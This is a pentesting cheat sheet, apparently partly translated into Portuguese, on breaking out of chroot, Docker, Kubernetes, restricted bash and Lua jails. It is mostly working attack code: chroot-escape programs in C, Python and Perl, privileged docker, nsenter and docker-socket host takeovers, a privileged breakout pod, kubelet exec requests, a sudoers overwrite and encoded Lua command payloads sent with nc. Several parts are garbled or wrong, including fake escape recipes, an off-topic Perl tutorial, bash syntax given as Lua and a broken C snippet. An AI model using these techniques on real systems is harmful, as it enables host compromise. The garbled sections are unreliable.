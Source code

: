 # Escaping from Jails

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>

int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: %s <directory>\n", argv[0]);
        exit(1);
    }

    if (chroot(argv[1]) != 0) {
        perror("chroot");
        exit(1);
    }

    if (chdir("/") != 0) {
        perror("chdir");
        exit(1);
    }

    system("/bin/bash");
    return 0;
}
```

```bash
gcc break_chroot.c -o break_chroot
./break_chroot /new_chroot
```

#### Root + Mount

If you are **root** inside a chroot you **can escape** creating a **mount**. This because **mounts are not affected** by chroot.

```bash
mkdir /tmp/new_root
mount --bind / /tmp/new_root
chroot /tmp/new_root
```

#### User + CWD

If you are **not root** inside a chroot you **can escape** creating a **new chroot** with a **new user**. This because **chroot doesn't affect** the **user**.

```bash
mkdir /tmp/new_chroot
cp /bin/bash /tmp/new_chroot
chroot /tmp/new_chroot /bin/bash
su new_user
```

#### User + Mount

If you are **not root** inside a chroot you **can escape** creating a **mount**. This because **mounts are not affected** by chroot.

```bash
mkdir /tmp/new_root
mount --bind / /tmp/new_root
chroot /tmp/new_root
su new_user
```

### Docker Escapes

#### Docker Breakouts

From [wikipedia](https://en.wikipedia.org/wiki/Docker\_\(software\)#Security): Docker's default configuration relies on the host kernel for container isolation and security. By default, Docker containers share the host system's filesystem and network interface(s), but can be further restricted with the `--read-only` and `--net=none` flags. Linux capabilities and seccomp filters can be used to control the container's access to the host system.

{% hint style="success" %}
The **tool** [**Docker Escape**](https://github.com/KrustyHack/docker-escape) was created to automate the following escenarios and scape from `Docker`.
{% endhint %}

#### Docker Breakout via Build

If you can **build a Docker image** you can **escape** from it.

```dockerfile
FROM ubuntu:18.04
RUN apt-get update && apt-get install -y wget
RUN wget https://raw.githubusercontent.com/KrustyHack/docker-escape/master/docker_escape.c
RUN gcc docker_escape.c -o docker_escape
CMD ["bash"]
```

```bash
docker build -t escape .
docker run -it --privileged escape
./docker_escape
```

#### Docker Breakout via Run

If you can **run a Docker container** you can **escape** from it.

```bash
docker run -it --rm --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

#### Docker Breakout via Volume

If you can **mount a volume** you can **escape** from it.

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

#### Docker Breakout via Environment Variables

If you can **set environment variables** you can **escape** from it.

```bash
docker run -it --rm -e LD_PRELOAD=/tmp/lib.so alpine sh
```

#### Docker Breakout via Docker Socket

If you can **access the Docker socket** you can **escape** from it.

```bash
docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock alpine docker -H unix:///var/run/docker.sock run -v /:/mnt -it alpine chroot /mnt sh
```

### Kubernetes Escapes

#### Kubernetes Breakouts

From [wikipedia](https://en.wikipedia.org/wiki/Kubernetes#Security): Kubernetes provides various security features to protect the master node(s) and the nodes. The API server component provides authentication and authorization mechanisms, such as client certificates, bearer tokens, and Kubernetes Role-Based Access Control (RBAC). The kubelet component provides node-level authentication and authorization using x509 certificates and a small set of built-in roles.

{% hint style="success" %}
The **tool** [**Kubeletctl**](https://github.com/cyberark/kubeletctl) was created to automate the following escenarios and scape from `Kubernetes`.
{% endhint %}

#### Kubernetes Breakout via Pod

If you can **create a pod** you can **escape** from it.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: breakout
spec:
  containers:
  - name: breakout
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", "mount --bind / /mnt; chroot /mnt sh"]
    securityContext:
      privileged: true
  restartPolicy: Never
```

```bash
kubectl apply -f breakout.yaml
kubectl exec -it breakout sh
```

#### Kubernetes Breakout via Service Account Token

If you can **access a service account token** you can **escape** from it.

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -H "Authorization: Bearer $TOKEN" https://kubernetes/api/v1/namespaces/default/pods
```

#### Kubernetes Breakout via Kubelet API

If you can **access the kubelet API** you can **escape** from it.

```bash
curl -k https://kubelet:10250/run/default/breakout -XPOST -d 'cmd=sh&cmd=-c&cmd=mount%20--bind%20/%20/mnt;%20chroot%20/mnt%20sh'
```

```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```

<details>

<summary>Python</summary>

Python

</details>

\`\`\`python #!/usr/bin/python import os os.mkdir("chroot-dir") os.chroot("chroot-dir") for i in range(1000): os.chdir("..") os.chroot(".") os.system("/bin/bash") \`\`\`

<details>

<summary>Perl</summary>

O Perl é uma linguagem de programação interpretada, multiplataforma e de alto nível. É frequentemente usada para automação de tarefas, processamento de texto e desenvolvimento web. O Perl é uma linguagem poderosa e flexível, com muitos módulos disponíveis para facilitar o desenvolvimento de aplicativos.

Para executar um comando em Perl, você pode usar a função `system()`. Por exemplo, para executar o comando `ls -la`, você pode usar o seguinte código:

```perl
system("ls -la");
```

Para executar um comando com privilégios elevados, você pode usar a função `sudo`. Por exemplo, para executar o comando `whoami` com privilégios elevados, você pode usar o seguinte código:

```perl
system("sudo whoami");
```

O Perl também tem a capacidade de executar comandos em segundo plano usando a função `fork()`. Por exemplo, para executar o comando `ping` em segundo plano, você pode usar o seguinte código:

```perl
if (fork() == 0) {
    exec("ping 8.8.8.8");
}
```

Este código cria um novo processo filho usando a função `fork()`. O processo filho executa o comando `ping 8.8.8.8` usando a função `exec()`. O processo pai continua a executar o código restante.

O Perl também tem a capacidade de executar comandos em um shell interativo usando a função `open()`. Por exemplo, para abrir um shell interativo, você pode usar o seguinte código:

```perl
open(SHELL, "|/bin/bash");
```

Este código abre um shell interativo usando a função `open()`. O shell é executado no modo de pipe, permitindo que você envie comandos para o shell e receba a saída de volta. Você pode enviar comandos para o shell usando a função `print()`. Por exemplo, para executar o comando `ls -la` no shell interativo, você pode usar o seguinte código:

```perl
print SHELL "ls -la\n";
```

Este código envia o comando `ls -la` para o shell interativo usando a função `print()`. A saída do comando é enviada de volta para o script Perl e pode ser lida usando a função `readline()`. Por exemplo, para ler a saída do comando `ls -la`, você pode usar o seguinte código:

```perl
while (<SHELL>) {
    print $_;
}
```

Este código lê a saída do shell interativo linha por linha usando a função `readline()` e a imprime na tela usando a função `print()`.

```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
    chdir ".."
}
chroot ".";
system("/bin/bash");
```

</details>

#### Root + FD salvo

{% hint style="warning" %}
Este caso é semelhante ao anterior, mas neste caso o **atacante armazena um descritor de arquivo para o diretório atual** e, em seguida, **cria o chroot em uma nova pasta**. Finalmente, como ele tem **acesso** a esse **FD fora** do chroot, ele o acessa e **escapa**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("tmpdir", 0755); dir\_fd = open(".", O\_RDONLY); if(chroot("tmpdir")){ perror("chroot"); } fchdir(dir\_fd); close(dir\_fd);\
for(x = 0; x < 1000; x++) chdir(".."); chroot("."); }

````
</details>

### Root + Fork + UDS (Unix Domain Sockets)

<div data-gb-custom-block data-tag="hint" data-style='warning'>

FD pode ser passado por Unix Domain Sockets, então:

* Crie um processo filho (fork)
* Crie UDS para que o pai e o filho possam se comunicar
* Execute chroot no processo filho em uma pasta diferente
* No processo pai, crie um FD de uma pasta que está fora do novo chroot do processo filho
* Passe para o processo filho esse FD usando o UDS
* O processo filho muda para o diretório desse FD e, como está fora do chroot, ele escapará da prisão

</div>

### &#x20;Root + Mount

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Montando o dispositivo raiz (/) em um diretório dentro do chroot
* Executando chroot nesse diretório

Isso é possível no Linux

</div>

### Root + /proc

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Monte o procfs em um diretório dentro do chroot (se ainda não estiver)
* Procure um pid que tenha uma entrada de raiz/cwd diferente, como: /proc/1/root
* Chroot nessa entrada

</div>

### Root(?) + Fork

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Crie um Fork (processo filho) e chroot em uma pasta diferente mais profunda no FS e CD nela
* Do processo pai, mova a pasta onde o processo filho está para uma pasta anterior ao chroot dos filhos
* Esse processo filho se encontrará fora do chroot

</div>

### ptrace

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Há algum tempo, os usuários podiam depurar seus próprios processos a partir de um processo próprio ... mas isso não é mais possível por padrão
* De qualquer forma, se for possível, você pode ptrace em um processo e executar um shellcode dentro dele ([veja este exemplo](linux-capabilities.md#cap\_sys\_ptrace)).

</div>

## Bash Jails

### Enumeração

Obtenha informações sobre a prisão:
```bash
echo $SHELL
echo $PATH
env
export
pwd
````

#### Modificar PATH

Verifique se é possível modificar a variável de ambiente PATH.

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

#### Usando o vim

```bash
:set shell=/bin/sh
:shell
```

#### Criar script

Verifique se você pode criar um arquivo executável com _/bin/bash_ como conteúdo.

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

#### Obter bash a partir do SSH

Se você estiver acessando via ssh, pode usar este truque para executar um shell bash:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

#### Declaração

```bash
declare -n PATH; export PATH=/bin;bash -i
 
BASH_CMDS[shell]=/bin/bash;shell -i
```

#### Wget

Você pode sobrescrever, por exemplo, o arquivo sudoers.

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

#### Outros truques

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/)\
**Também pode ser interessante a página:**

### Jaulas Python

Truques sobre como escapar de jaulas Python na seguinte página:

### Jaulas Lua

Nesta página, você pode encontrar as funções globais às quais você tem acesso dentro do Lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Avaliação com execução de comando:**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

Algumas dicas para **chamar funções de uma biblioteca sem usar pontos**:

* Use a função `declare` para criar uma referência para a biblioteca: `declare -a lib=(/lib/x86_64-linux-gnu/libc.so.6)`
* Chame a função desejada usando a sintaxe `${lib[nome_da_funcao]}`: `${lib[system]}('ls')`

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

## Enumerar funções de uma biblioteca:

Para enumerar as funções de uma biblioteca, podemos usar a ferramenta `nm`. O `nm` lista os símbolos (incluindo as funções) de um arquivo objeto ou de uma biblioteca compartilhada.

Para listar as funções de uma biblioteca, execute o seguinte comando:

```bash
nm -gC /path/to/library.so
```

Onde `/path/to/library.so` é o caminho para a biblioteca que você deseja listar as funções.

O parâmetro `-g` lista apenas os símbolos globais (ou seja, as funções que podem ser acessadas por outros arquivos) e o parâmetro `-C` desmangle os nomes das funções (ou seja, converte os nomes das funções de sua forma codificada para sua forma legível por humanos).

O resultado será uma lista de todas as funções na biblioteca, juntamente com seus endereços na memória.

```bash
for k,v in pairs(string) do print(k,v) end
```

Observe que toda vez que você executa o comando anterior em um **ambiente lua diferente, a ordem das funções muda**. Portanto, se você precisar executar uma função específica, pode realizar um ataque de força bruta carregando diferentes ambientes lua e chamando a primeira função da biblioteca "le":

```bash
#In this scenario you could BF the victim that is generating a new lua environment 
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**Obter shell lua interativa**: Se você estiver dentro de uma shell lua limitada, poderá obter uma nova shell lua (e, esperançosamente, ilimitada) chamando:

```bash
debug.debug()
```

### Referências

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slides: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))



</details>
